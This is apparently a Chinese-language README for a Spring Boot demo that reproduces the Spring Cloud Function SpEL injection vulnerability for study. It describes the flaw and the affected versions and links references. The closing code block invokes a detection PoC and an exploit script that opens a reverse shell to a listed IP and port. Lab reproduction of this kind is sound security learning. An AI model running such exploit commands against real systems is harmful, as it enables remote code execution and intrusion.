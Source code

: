 # 关于项目

一个简单的SpringBoot Demo用于复现学习 [Spring Cloud Function SPEL表达式注入漏洞](https://www.anquanke.com/post/id/271221)

### 漏洞名称

Spring Cloud Function SPEL表达式注入漏洞

### 漏洞描述

Spring框架为现代基于java的企业应用程序(在任何类型的部署平台上)提供了一个全面的编程和配置模型。

Spring Cloud 中的 serveless框架 Spring Cloud Function 中的 RoutingFunction 类的 apply 方法将请求头中的“spring.cloud.function.routing-expression”参数作为 Spel 表达式进行处理，造成Spel表达式注入，攻击者可通过该漏洞执行任意代码。

### 利用条件
3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2

### 环境搭建
在官方网页新建一个 Spring boot 项目(https://start.spring.io/)、使用idea启动。

### 修改 pom.xml 配置文件

编译项目成功后，启动 http://127.0.0.1:8080，出现 Whitelabel Error Page 页面表示成功。

## 问题解决
- [java: 错误: 无效的源发行版：15](https://blog.csdn.net/qq_42025798/article/details/113917231)

## REF
- [Spring Cloud Function SPEL表达式注入漏洞](https://www.anquanke.com/post/id/271221)
- [SpringCloud Function SpEL漏洞环境搭建+漏洞复现](https://www.anquanke.com/post/id/271167)
- [Spring-cloud-function-SpEL-RCE](https://github.com/chaosec2021/Spring-cloud-function-SpEL-RCE)

```
开始检测漏洞并反弹shell
## 检测漏洞
python3 Spel_RCE_POC.py url.txt
## 反弹shell
python3 Spel_RCE_Bash_EXP.py http://192.168.160.146:9000/ 192.168.160.241 7777
```